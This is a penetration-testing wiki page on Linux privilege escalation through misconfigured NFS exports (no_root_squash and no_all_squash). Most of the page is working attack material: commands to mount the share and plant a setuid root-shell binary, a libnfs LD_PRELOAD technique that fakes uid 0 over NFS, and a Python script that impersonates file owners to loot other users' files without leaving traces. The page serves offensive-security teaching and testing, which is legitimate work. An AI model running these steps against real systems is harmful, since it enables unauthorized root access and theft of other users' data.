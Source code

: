 # NFS no\_root\_squash/no\_all\_squash

## Theory

If you find some NFS directory that is configured as **no\_root\_squash**, then you can **access** it from **as a client** and **write inside** that directory **as** if you were the local **root** of the machine.

**no\_root\_squash**: This option basically gives authority to the root user on the client to access files on the NFS server as root. And this can lead to serious security implications.

**no\_all\_squash:** This is similar to **no\_root\_squash** option but applies to **non-root users**. Imagine, you have a shell as nobody user; checked /etc/exports file; no\_all\_squash option is present; check /etc/passwd file; emulate a non-root user; create a suid file as that user (by mounting using nfs). Execute the suid as nobody user and become different user.

## Practice

{% tabs %}
{% tab title="Enumerate" %}
To enumerate the NFS server’s configuration, all we need to do is view the contents of the **/etc/exports** file.

```bash
$ cat /etc/exports
```

If you see a share with the **no\_all\_squash or no\_root\_squash** configuration, you may be able to exploit it.
{% endtab %}

{% tab title="Exploit - Remote" %}
To exploit this privilege escalation vector, we will :

* mount the share from another machine where you’re root
* place a setuid binary there
* on the victim machine, run the binary and get root

On the attacking machine, mount the vulnerable share:

```bash
#Attacker, as root user
mkdir /mnt/pe
mount -t nfs <IP>:<SHARED_FOLDER> /mnt/pe
```

Creat a setuid binary and copy it to the mounted share

```bash
# Attacker, as root user
## Create a SUID binary
echo 'int main() { setgid(0); setuid(0); system("/bin/bash -p"); return 0; }' > /tmp/root_shell.c
gcc /tmp/root_shell.c -o /tmp/root_shell

## Copy the binary and set the uid byte
cd /mnt/pe
cp /tmp/root_shell .
chmod +s root_shell
```

On the victime computer, as a low privilege user:

```bash
# Victime, as low privilege user
cd <SHAREDD_FOLDER>
./root_shell 
#ROOT shell
```

{% hint style="success" %}
You can copy the **/bin/bash** binary directly and give it SUID rights instead of compiling a new binary.
{% endhint %}
{% endtab %}

{% tab title="Exploit - Local" %}
If the `/etc/exports` has an explicit list of IP addresses allowed to mount the share, we won't be able to make the remote exploit and you will need to **abuse this trick and exploit no\_root\_squash/no\_all\_squash locally with an unprivileged user**.

When [listing the NFS shares](../../../network-pentesting/protocols/nfs.md#showmount), it will show IP allowed to mount the share:

```bash
$ showmount -e nfs-server
Export list for nfs-server:
/nfs_root   machine
```

{% hint style="info" %}
Another required requirement for the exploit to work is that **the export inside `/etc/export`** **must be using the `insecure` flag**.\
_I'm not sure that if `/etc/export` is indicating an IP address this trick will work_
{% endhint %}

This exploit relies on a problem in the NFSv3 specification that mandates that it’s up to the client to advertise its uid/gid when accessing the share. Thus it’s possible to fake the uid/gid by forging the NFS RPC calls if the share is already mounted!

#### Compiling the example <a href="#compiling-the-example" id="compiling-the-example"></a>

Here’s a [library that lets you do just that](https://github.com/sahlberg/libnfs). Depending on your kernel, you might need to adapt the example. In my case I had to comment out the fallocate syscalls.

```bash
# On local NFS server or computer that have access to the share
./bootstrap
./configure
make
gcc -fPIC -shared -o ld_nfs.so examples/ld_nfs.c -ldl -lnfs -I./include/ -L./lib/.libs/
```

#### Exploiting using the library <a href="#exploiting-using-the-library" id="exploiting-using-the-library"></a>

Let’s use the simplest of exploits:

```bash
cat pwn.c
int main(void){setreuid(0,0); system("/bin/bash"); return 0;}
gcc pwn.c -o a.out
```

Place our exploit on the share and make it suid root by faking our uid in the RPC calls:

```bash
# On local NFS server or computer that have access to the share
LD_NFS_UID=0 LD_PRELOAD=./ld_nfs.so cp ../a.out nfs://nfs-server/nfs_root/
LD_NFS_UID=0 LD_PRELOAD=./ld_nfs.so chown root: nfs://nfs-server/nfs_root/a.out
LD_NFS_UID=0 LD_PRELOAD=./ld_nfs.so chmod o+rx nfs://nfs-server/nfs_root/a.out
LD_NFS_UID=0 LD_PRELOAD=./ld_nfs.so chmod u+s nfs://nfs-server/nfs_root/a.out
```

All that’s left is to launch it:

```bash
# On local NFS server or computer that have access to the share
$ /mnt/share/a.out
# root shell
```
{% endtab %}
{% endtabs %}

### NFShell <a href="#bonus-nfshell" id="bonus-nfshell"></a>

Once local root on the machine, I wanted to loot the NFS share for possible secrets that would let me pivot. But there were many users of the share all with their own uids that I couldn’t read despite being root because of the uid mismatch. I didn’t want to leave obvious traces such as a chown -R, so I rolled a little snippet to set my uid prior to running the desired shell command:

{% tabs %}
{% tab title="NFShell" %}
```python
#!/usr/bin/env python
import sys
import os

def get_file_uid(filepath):
    try:
        uid = os.stat(filepath).st_uid
    except OSError as e:
        return get_file_uid(os.path.dirname(filepath))
    return uid

filepath = sys.argv[-1]
uid = get_file_uid(filepath)
os.setreuid(uid, uid)
os.system(' '.join(sys.argv[1:]))
```

You can then run most commands as you normally would by prefixing them with the script:

```
# ll ./mount/
drwxr-x---  6 1008 1009 1024 Apr  5  2017 9.3_old

# ls -la ./mount/9.3_old/
ls: cannot open directory ./mount/9.3_old/: Permission denied

# ./nfsh.py ls --color -l ./mount/9.3_old/
drwxr-x---  2 1008 1009 1024 Apr  5  2017 bin
drwxr-x---  4 1008 1009 1024 Apr  5  2017 conf
drwx------ 15 1008 1009 1024 Apr  5  2017 data
drwxr-x---  2 1008 1009 1024 Apr  5  2017 install
```
{% endtab %}
{% endtabs %}

## Resources

{% embed url="https://book.hacktricks.xyz/linux-hardening/privilege-escalation/nfs-no_root_squash-misconfiguration-pe" %}

{% embed url="https://www.errno.fr/nfs_privesc.html" %}

{% embed url="https://www.errno.fr/nfs_privesc.html" %}
